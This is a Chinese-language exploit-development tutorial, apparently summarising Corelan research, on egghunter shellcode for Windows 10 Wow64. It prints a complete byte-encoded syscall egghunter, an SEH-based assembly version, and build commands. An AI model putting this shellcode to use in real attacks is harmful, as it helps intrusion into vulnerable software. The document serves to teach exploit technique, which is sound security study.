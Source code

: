 ```yaml
---
date: 2025-08-04T22:52:34+08:00
title: Windows 10 Wow64环境下的Egghunter技术解析
tags: [egghunter, wow64, 漏洞利用, Windows安全]
authors: qife
description: 本文详细介绍了Windows 10环境下Wow64架构的Egghunter技术实现，包括系统调用变更带来的挑战、SEH异常处理机制的应用，以及如何构建跨平台兼容的EggHunter代码。文章还提供了完整的汇编实现和调试技巧。
---
```


# Windows 10 Egghunter（Wow64）技术解析

## 引言
作者坦言对Egghunter技术一直怀有浓厚兴趣，但强调在实际漏洞利用中应尽量避免使用，因其会降低执行效率。本文是Corelan团队沉寂三年后的首篇技术文章，重点解决Windows 7时代Lincoln开发的Wow64 Egghunter在Windows 10失效的问题。

## 技术背景
微软在每个Windows主要版本中都会变更系统调用编号，导致基于特定系统调用（如NtAccessCheckAndAuditAlarm）的Egghunter失效。系统调用编号变化可通过公开文档查询（j00ru.vexillium.org）。

## Wow64 Egghunter实现
经过调试分析，团队发现除了系统调用编号变化外，参数传递和栈布局也发生了改变。最终实现的Windows 10 Wow64 Egghunter代码如下：

```nasm
"\x33\xD2"              # XOR EDX,EDX
"\x66\x81\xCA\xFF\x0F"  # OR DX,0FFF
"\x33\xDB"              # XOR EBX,EBX
"\x42"                  # INC EDX
"\x52"                  # PUSH EDX
"\x53"                  # PUSH EBX
"\x53"                  # PUSH EBX
"\x53"                  # PUSH EBX
"\x53"                  # PUSH EBX
"\x6A\x29"              # PUSH 29 (系统调用0x29)
"\x58"                  # POP EAX
"\xB3\xC0"              # MOV BL,0C0
"\x64\xFF\x13"          # CALL DWORD PTR FS:[EBX]
"\x83\xC4\x10"          # ADD ESP,0x10
"\x5A"                  # POP EDX
"\x3C\x05"              # CMP AL,5
"\x74\xE3"              # JE SHORT
"\xB8\x77\x30\x30\x74"  # MOV EAX,74303077 (w00t)
"\x8B\xFA"              # MOV EDI,EDX
"\xAF"                  # SCAS DWORD PTR ES:[EDI]
"\x75\xDE"              # JNZ SHORT
"\xAF"                  # SCAS DWORD PTR ES:[EDI]
"\x75\xDB"              # JNZ SHORT
"\xFF\xE7"              # JMP EDI
```

该Egghunter可通过mona.py生成：`!mona egg -wow64 -winver 10`

## 调试技巧
调试时需配置调试器忽略以下异常：
- 0xC0000005 - 访问冲突
- 0x80000001 - 保护页冲突

## 基于SEH的通用Egghunter
作者进一步探索了不依赖系统调用的SEH（结构化异常处理）方案，该方案理论上可跨Windows版本和架构工作：

```nasm
; 通用SEH Egghunter（x86和wow64）
[BITS 32]
CALL $+4
RET
POP ECX
ADD ECX,0x1d

; 设置SEH记录
XOR EBX,EBX
PUSH ECX
PUSH ECX
PUSH 0x90c3585c
PUSH 0x44444444  ; 替换为POP/POP/RET地址
PUSH 0x04EB5858
MOV DWORD [FS:EBX],ESP

JMP nextpage

handle:
    SUB ESP,0x14
    XOR EBX,EBX
    MOV DWORD [FS:EBX],ESP
    MOV EDX, [ESP+24]
    INC EDX

nextpage:
    OR DX, 0x0FFF
    INC EDX
    MOV [ESP+24], EDX
    MOV EAX, 0x74303077
    MOV EDI, EDX
    SCASD
    JNZ nextpage+5
    SCASD
    JNZ nextpage+5
    JMP EDI
```

## 实现要点
1. 使用GetPC技术动态定位处理程序地址
2. 构建5层特殊栈结构实现异常处理链
3. 需要非SafeSEH保护的POP/POP/RET指令地址
4. 通过FS:[0]注册自定义SEH处理程序

## 使用说明
1. 使用NASM编译：`nasm -o egghunter.obj egghunter.nasm`
2. 转换为Shellcode：`python bin2hex.py egghunter.obj`
3. 最终Shellcode需替换\x44\x44\x44\x44为实际POP/POP/RET地址

## 未来展望
随着Windows 10成为"最后"的Windows版本，Egghunter的兼容性可能更持久。但作者仍建议优先考虑不使用Egghunter的利用方案。